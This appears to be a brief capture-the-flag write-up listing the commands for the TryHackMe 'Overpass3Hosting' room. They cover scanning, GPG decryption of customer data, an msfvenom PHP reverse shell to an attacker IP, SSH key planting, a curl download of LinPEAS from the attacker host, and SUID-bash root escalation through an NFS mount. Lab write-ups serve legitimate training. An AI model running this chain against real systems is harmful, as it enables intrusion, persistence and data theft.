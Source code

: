 # TryHackMe-Overpass3Hosting

**Scope:**

- GPG (GNU Privacy Guard)
- SSH (Secure Shell) Private Key - ID RSA
- Mount Process
- Remote Procedure Call (RPC)
- NFS (Network File System)

**Keywords:**

- LinPEAS
- SSH Connection with ID RSA
- GPG Import & Decryption
- FTP Uploading
- Reverse Shell
- SSH Authorized Keys
- NFS Network Enumeration
- NFS Mount

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn --min-rate=100000 $target_ip`
- `wfuzz -w /usr/share/wordlists/dirb/common.txt --hc 403,404,500,501,502,503 -c -t 50 http://overpasshosting.thm/FUZZ`
- `unzip backup.zip`
- `gpg --import overpass.key`
- `gpg --decrypt CustomerDetails.xlsx.gpg > customers.xlsx`
- `ftp overpasshosting.thm -p 21`
- `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.2.37.37 LPORT=11212 -o meterpreter_shell.php`
- `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.2.37.37 LPORT=11212 R`
- `ssh -o MACs=hmac-sha2-256 paradox@overpasshosting.thm -p 22`
- `ssh -L 2049:localhost:2049 -o MACs=hmac-sha2-256 paradox@overpasshosting.thm -p 22`
- `nmap -sV -sC -T4 -A -Pn -p 2049 -oN nmap_local.txt 127.0.0.1`
- `sudo mount -v -t nfs localhost: nfsmount`
- `ssh -o MACs=hmac-sha2-256 james@overpasshosting.thm -p 22 -i jamesidrsa`
- `chown root:root bash`
- `chmod +s bash`

**System Commands:**

- `whoami`
- `python3 -c 'import pty;pty.spawn("/bin/bash")’`
- `export TERM=xterm`
- `echo 'ssh-ed25519 [REDACTED - SECRET ID PUB] root@kali' >> authorized_keys`
- `uname -a`
- `curl http://10.2.37.37:8000/linpeas_linux_amd64 -o linpeas64`
- `./linpeas64`
- `rpcinfo -p | grep 'nfs’`
- `ss -tulwn`
- `cp /usr/bin/bash .`
- `ll`
- `./bash -p`
